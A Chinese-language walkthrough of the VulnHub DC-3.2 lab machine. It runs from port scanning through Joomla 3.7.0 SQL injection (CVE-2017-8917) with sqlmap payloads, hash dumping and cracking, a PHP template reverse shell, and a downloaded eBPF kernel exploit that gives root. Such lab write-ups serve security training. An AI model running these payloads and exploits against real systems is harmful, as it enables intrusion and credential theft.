










# DC: 3.2

下载地址：https://download.vulnhub.com/dc/DC-3-2.zip

## 实战演练

> 需要在虚拟机删除磁盘，不然开不了机

发现靶场IP地址：`192.168.32.159`



扫描对外开放端口

```
┌──(root💀kali)-[/tmp]
└─# nmap  -sT -sV  -p1-65535 192.168.32.159                                                                 2 ⚙
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-21 04:33 EDT
Nmap scan report for 192.168.32.159
Host is up (0.00026s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 00:0C:29:6C:92:FC (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.91 seconds

```

浏览器访问80端口



扫描web目录，找到靶场的web系统的框架是`joomla`





使用`droopescan`查找有用的信息

```
┌──(root💀kali)-[/tmp]
└─# docker run  droopescan scan joomla  -u  http://192.168.32.159                                                2 ⚙
[+] Possible version(s):                                                        
    3.7.0
    3.7.0-beta2
    3.7.0-beta3
    3.7.0-beta4
    3.7.0-rc4
    3.7.1
    3.7.1-rc1
    3.7.1-rc2
    3.7.2
    3.7.3
    3.7.3-beta1
    3.7.3-rc2
    3.7.4
    3.7.4-beta1
    3.7.4-rc1
    3.7.5
    3.8.0
    3.8.0-beta1
    3.8.0-beta2
    3.8.0-beta3
    3.8.0-beta4
    3.8.1
    3.8.1-rc
    3.8.2
    3.8.2-rc
    3.8.3
    3.8.3-rc

[+] Possible interesting urls found:
    Detailed version information. - http://192.168.32.159/administrator/manifests/files/joomla.xml
    Login page. - http://192.168.32.159/administrator/
    License file. - http://192.168.32.159/LICENSE.txt
    Version attribute contains approx version - http://192.168.32.159/plugins/system/cache/cache.xml

[+] Scan finished (0:00:00.081589 elapsed)

```

查看可以利用的EXP脚本



找到可以利用的脚本

```
┌──(root💀kali)-[/tmp]
└─# cat 42033.txt 
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap:

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)   
```

使用sqlmap进行测试

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -u "http://192.168.32.159/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch 
```



导出用户信息

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -u "http://192.168.32.159/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]   -D joomladb -T '#__users' --dump
Database: joomladb
Table: #__users
[1 entry]
+-----+-------+--------------------------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+----------+
| id  | name  | email                    | params                                                                                       | password                                                     | username |
+-----+-------+--------------------------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+----------+
| 629 | admin | freddy@norealaddress.net | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu | admin    |
+-----+-------+--------------------------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+----------+

```

使用john进行暴力破解，找到密码为`snoopy`

```
┌──(root💀kali)-[/tmp]
└─# john password.txt --wordlist=/usr/share/wordlists/rockyou.txt                                                                                                                                                                        1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
snoopy           (?)
1g 0:00:00:01 DONE (2022-06-21 05:00) 0.6211g/s 89.44p/s 89.44c/s 89.44C/s 555555..sandra
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

访问`administrator`目录



修改PHP模板为反弹shell

```
http://192.168.32.159/administrator/index.php?option=com_templates&view=template&id=503&file=L2luZGV4LnBocA%3D%3D
```



访问shell地址

```
http://192.168.32.159/templates/beez3/index.php
```



使用CVE-2016-4557漏洞进行提权

```
https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/39772.zip
```

```
$ unzip 39772.zip
Archive:  39772.zip
   creating: 39772/
  inflating: 39772/.DS_Store         
   creating: __MACOSX/
   creating: __MACOSX/39772/
  inflating: __MACOSX/39772/._.DS_Store  
  inflating: 39772/crasher.tar       
  inflating: __MACOSX/39772/._crasher.tar  
  inflating: 39772/exploit.tar       
  inflating: __MACOSX/39772/._exploit.tar  
$ cd 39772

$ ls
crasher.tar
exploit.tar

$ tar xvf ex*
ebpf_mapfd_doubleput_exploit/
ebpf_mapfd_doubleput_exploit/hello.c
ebpf_mapfd_doubleput_exploit/suidhelper.c
ebpf_mapfd_doubleput_exploit/compile.sh
ebpf_mapfd_doubleput_exploit/doubleput.c

$ ls
crasher.tar
ebpf_mapfd_doubleput_exploit
$ ./compile.sh 

$ ./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
uid=0(root) gid=0(root) groups=0(root),33(www-data)

```


